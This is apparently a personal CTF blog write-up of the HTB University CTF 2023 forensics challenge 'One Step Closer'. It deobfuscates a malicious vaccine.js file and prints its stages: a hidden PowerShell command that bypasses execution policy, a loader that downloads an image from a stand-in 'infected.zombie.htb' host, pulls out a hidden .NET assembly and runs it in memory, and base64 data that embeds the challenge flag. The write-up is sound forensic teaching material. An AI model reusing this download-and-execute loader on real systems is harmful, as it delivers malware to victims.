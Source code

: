 ```yaml
---
layout: post
title: University CTF 2023:Brains and bytes
date: '2023-12-10 19:40:10 +0300'
image: /assets/img/cover_images/47.jpg
categories: [CTF, University CTF 2023 Brains and bytes]
---
```


## Forensics
### One Step Closer
> Tasked with defending the antidote's research, a diverse group of students united against a relentless cyber onslaught. As codes clashed and defenses were tested, their collective effort stood as humanity's beacon, inching closer to safeguarding the research for the cure with every thwarted attack. A stealthy attack might have penetrated their defenses. Along with the Hackster's University students, analyze the provided file so you can detect this attack in the future. 
{: .prompt-info }

We are provided with vaccine.js file which is somehow obfuscated so after analysing the file we come across a url `http://infected.human.htb/d/BKtQR`

```javascript
lOLMCBgGDMolnlotrwOCsILGbKwBtzwvlYFqZdGLMqDxTrcBnpLiTUBqFfekJSDzoSURpLfjiRFSkUbDiScOejegcwcjNbnqGNXuTbtsxWGWvICjWnbUbbSrdUVFqffbkvjTgFhvQddrraBIrYWfNFerCZkSxFapZwPgmIRIyaedLHpBnOvnVBXwzWPxOQJgZModJeUo.open("GET", "http://infected.human.htb/d/BKtQR", false);
```

Let's try to download the file using the docker ip and port 

```shell
http://94.237.57.242:50411/d/BkQR
```

After making the request we get a very huge obfuscated file which is hard to read. So i scrolled until the end and found this powershell code written in reverse. 

```powershell
StrReverse("'DxujWO$ dnammoc- eliforPoN- ssapyb ycilopnoitucexe- neddih elytswodniw- exe.llehsrewop")
```

The file was suspicious, hard to read and understand "obviously because it was written by the zombies" i decided to upload it to virus total and see the behaviour.

![img-description](/assets/img/brains-and-bytes/1.png)

Process 4080 reveals the command executed by the file. it is base64 encoded and so we decode it
```powershell
4080 - "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -command '$Codigo = ''Jem9tYmllcBpem9tYmllcG0em9tYmllcYQBnem9tYmllcGUem9tYmllcVQByem9tYmllcGwem9tYmllcIe 
...
<SNIP>
...
mllc='';$OWjuxd = [system.Text.encoding]::Unicode.GetString([system.Convert]::Frombase64string($codigo.replace(''em9tYmllc'',''A'')));powershell.exe -windowstyle hidden -executionpolicy bypass -NoProfile -command $OWjuxD'
```

From the code we can see that em9tYmllc is being replaced with A and so we replace all the instances of em9tYmllc with A to get a clean base64 encoded string "free from any zombie virus"

```powershell
GetString([system.Convert]::Frombase64string($codigo.replace(''em9tYmllc'',''A'')));
```

```shell
JABpAG0AYQBnAGUAVQByAGwAIAA9ACAAJwBoAHQAdABwADoALwAvAGkAbgBmAGUAYwB0AGUAZAAuAHoAbwBtAGIAaQBlAC4AaAB0AGIALwBXAEoAdgBlAFgANwAxAGEAZwBtAE8AUQA2AEcAdwBfADEANgA5A
...
<SNIP>
...
wBnAD0AJwAgACwAIAAnAGQAZgBkAGYAZAAnACAALAAgACcAZABmAGQAZgAnACAALAAgACcAZABmAGQAZgAnACAALAAgACcAZABhAGQAcwBhACcAIAAsACAAJwBkAGUAJwAgACwAIAAnAGMAdQAnACkAKQA=
``` 

We then decode the base64 string and discover another powershell script

```powershell
d5dff21b17ee-1f48-5c74-c934-d73c2a63=nekot&aidem=tla?txt.refsnart/o/moc.topsppa.f93c6-gnikcah/b/0v/moc.sipaelgoog.egarotsesaberif//:sptth$imageUrl = 'http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg';$webClient = New-Object System.Net.WebClient;$imageBytes = $webClient.DownloadData($imageUrl);$imageText = [System.Text.Encoding]::UTF8.GetString($imageBytes);$startFlag = '<<BASE64_START>>';$endFlag = '<<BASE64_END>>';$startIndex = $imageText.IndexOf($startFlag);$endIndex = $imageText.IndexOf($endFlag);$startIndex -ge 0 -and $endIndex -gt $startIndex;$startIndex += $startFlag.Length;$base64Length = $endIndex - $startIndex;$base64Command = $imageText.Substring($startIndex, $base64Length);$commandBytes = [System.Convert]::FromBase64String($base64Command);$loadedAssembly = [System.Reflection.Assembly]::Load($commandBytes);$type = $loadedAssembly.GetType('Fiber.Home');$method = $type.GetMethod('VAI').Invoke($null, [object[]] ('ZDVkZmYyMWIxN2VlLTFmNDgtNWM3NC1jOTM0LWQ3M2MyYTYzPW5la290JmFpZGVtPXRsYT90eHQucmVmc25hcnQvby9tb2MudG9wc3BwYS5mOTNjNi1nbmlrY2FoL2IvMHYvbW9jLnNpcGFlbGdvb2cuZWdhcm90c2VzYWJlcmlmLy86c3B0dGg=' , 'dfdfd' , 'dfdf' , 'dfdf' , 'dadsa' , 'de' , 'cu')
```

From the script we see that its trying to download an image from this `http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg` url and so we try to get it using our docker ip and port

![img-description](/assets/img/brains-and-bytes/2.png)

Next we use exiftool and find some interesting stuff.

```shell
> exiftool WJveX71agmOQ6Gw_1698762642.jpg
ExifTool Version Number         : 12.70
File Name                       : WJveX71agmOQ6Gw_1698762642.jpg
Directory                       : .
File Size                       : 2.9 MB
File Modification Date/Time     : 2023:12:06 13:51:30+03:00
File Access Date/Time           : 2023:12:10 19:25:29+03:00
File Inode Change Date/Time     : 2023:12:10 19:25:24+03:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
```

2.9 MB i knew something must be hidden in the file so i tried to change the image extension to .png and used zsteg 

```shell
> zsteg img.png
extradata:0         .. text: "<<BASE64_START>>TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAABQRQAA
...
<SNIP>
...
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEhUQnswbjNfU3QzcF9jbDBzM3JfdDBfdGgzX2N1cjN9Cg==<<BASE64_END>>\n\n"
```

This was a very large base64 encoded string. I took the string to cyber chef for a nice "zombie recipe"

![img-description](/assets/img/brains-and-bytes/3.png)

We can see `MZ` meaning it is a windows executable file.So i decided to just continue scrolling and boom

![img-description](/assets/img/brains-and-bytes/4.png)

These zombies really used their brains to byte the system.
